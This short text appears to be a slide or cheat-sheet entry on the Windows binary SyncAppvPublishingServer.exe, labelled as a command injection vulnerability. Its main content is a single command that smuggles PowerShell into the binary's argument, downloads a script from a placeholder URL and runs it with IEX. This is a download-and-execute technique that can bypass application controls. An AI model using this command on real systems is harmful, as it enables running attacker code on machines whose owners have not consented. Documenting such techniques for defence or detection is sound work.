

# SyncAppvPublishingServer.exe
SyncAppvPublishingServer.exe "n;((New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX

Command injection vulnerability